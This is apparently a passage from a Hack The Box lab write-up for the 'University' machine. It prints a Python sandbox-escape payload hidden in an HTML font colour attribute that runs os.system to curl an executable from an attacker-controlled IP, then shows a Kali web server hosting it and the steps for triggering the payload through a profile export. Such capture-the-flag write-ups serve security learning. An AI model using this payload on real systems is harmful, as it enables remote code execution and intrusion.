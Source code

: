 As first step we `downloaded` the `binary` using `curl` and `saved` it in the same directory.

```c
<para>  
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl http://10.10.14.79/asdf.exe -o asdf.exe') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">  
foobar  
</font>  
</para>
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The `payload` needed to be stored in the `Rich Text Editor` in the `user profile section`.

![](images/2024-10-27_08-23_80_student_profile_payload.png)

After we clicked on `Submit` the payload in the `editor` we `exported` our `profile` to `trigger` the `payload`.
